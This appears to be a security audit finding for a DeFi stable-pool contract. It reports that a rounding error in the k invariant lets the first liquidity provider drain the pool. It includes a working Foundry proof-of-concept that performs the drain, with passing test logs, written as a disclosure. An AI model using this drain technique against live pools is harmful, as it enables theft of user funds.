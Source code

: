 Funny Merlot Yeti

High

# Rounding error allows first LP of a stable pair to drain it

## Summary
The invariant k of a stable pool can be calculated as 0 if the initial LP mints a small amount of liquidity to the pool. This provider can then DOS the pair by minting a small amount of liquidity and then stealing what's left in the pool. This can be prevented by either increasing the minimal reserves for a pool or by setting a minimal value for the k invariant.

## Vulnerability Detail

The implementation of the [k invariant](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403) does the following for stable pools:
```solidity
uint _a = (_x * _y) / 1e18;
uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
return _a * _b / 1e18;  // x3y+y3x >= k
```

This function can return 0 when `_a` is 0, which happens when `_x * _y` is less than `1e18`.

The [mint function](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250), which is borrowed from UniswapV2, does a minimal check that  x * y  > [MINIMUM_LIQUIDITY](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L31). This check is not sufficient in some circumstances.

The first LP can attack the Pair by repeatedly minting a small amount of liquidity and then stealing what is left in the pool.

## Impact
High risk of fund loss

## Code Snippet

```solidity
pragma solidity 0.8.13;


import './BaseTest.sol';

contract PairTest is BaseTest {
  // ...
  VotingEscrow escrow;
  GaugeFactory gaugeFactory;
  BribeFactory bribeFactory;
  Voter voter;

  function deployVoter() internal
  {
    gaugeFactory = new GaugeFactory();
    bribeFactory = new BribeFactory();
    gaugePlugin = new GaugePlugin(address(FLOW), address(WETH), address(this));

    VeArtProxy artProxy = new VeArtProxy();
    escrow = new VotingEscrow(address(FLOW),address(flowDaiPair), address(artProxy), address(this));

    voter = new Voter(address(escrow), address(factory), address(gaugeFactory), address(bribeFactory), address(gaugePlugin));

    escrow.setVoter(address(voter));
    factory.setVoter(address(voter));
    assertEq(voter.length(), 0);
  }

  function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {

    DAI.transfer(address(pair), 1);
    uint amount0;
    uint amount1;
    if (address(DAI) < address(FRAX)) {
      amount0 = 0;
      amount1 = initialFraxAmount - 1;
    } else {
      amount1 = 0;
      amount0 = initialFraxAmount - 1;
    }

    pair.swap(amount0, amount1, address(this), new bytes(0));
    FRAX.transfer(address(pair), 1);
    if (address(DAI) < address(FRAX)) {
      amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
      amount1 = 0;
    } else {
      amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
      amount0 = 0;
    }
    pair.swap(amount0, amount1, address(this), new bytes(0));
  }
  function testDestroyPair() public {

    deployOwners();
    deployCoins();
    deal(address(DAI), address(this), 100 ether);
    deal(address(FRAX), address(this), 100 ether);
    deployPairFactoryAndRouter();
    deployVoter();
    vm.startPrank(address(this), address(this));
    address addr1 = factory.createPair(address(DAI), address(FRAX), true);
    vm.stopPrank();
    pair = Pair(addr1);

    for(uint i = 0; i < 10; i++) {
      console.log("iteration: ", i);
      DAI.transfer(address(pair), 10_000_000);
      FRAX.transfer(address(pair), 10_000_000);
      // as long as 10_000_000^2 < 1e18
      uint liquidity = pair.mint(address(this));
      console.log("pair:", address(pair), "liquidity:", liquidity);
      console.log("total liq:", pair.balanceOf(address(this)));
      drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
      console.log("DAI balance:", DAI.balanceOf(address(pair)));
      console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
      require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
      require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
    }
    DAI.transfer(address(pair), 1 ether);
    FRAX.transfer(address(pair), 1 ether);
    vm.expectRevert();
    pair.mint(address(this));
  }
}
```
Test results 

## Tool used

Manual Review

## Recommendation

## Appendix: Test results

Ran 1 test for test/PairTest.t.sol:PairTest
[PASS] testDestroyPair() (gas: 34841875)
Logs:
  iteration:  0
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 9999000
  total liq: 9999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  1
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 50000000000000
  total liq: 50000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  2
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 250000050000000000000
  total liq: 250000100000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  3
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 1250000500000050000000000000
  total liq: 1250000750000150000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  4
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 6250003750000750000050000000000000
  total liq: 6250005000001500000200000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  5
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 31250025000007500001000000050000000000000
  total liq: 31250031250012500002500000250000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  6
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 156250156250062500012500001250000050000000000000
  total liq: 156250187500093750025000003750000300000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  7
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 781250937500468750125000018750001500000050000000000000
  total liq: 781251093750656250218750043750005250000350000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  8
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 3906255468753281251093750218750026250001750000050000000000000
  total liq: 3906256250004375001750000437500070000007000000400000009999000
  DAI balance: 1
  FRAX balance: 2
  iteration:  9
  pair: 0x3d6c5434772328f24Bd56399415d6681b12CDF1b liquidity: 19531281250021875008750002187500350000035000002000000050000000000000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000
  DAI balance: 1
  FRAX balance: 2

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 43.58ms (32.01ms CPU time)
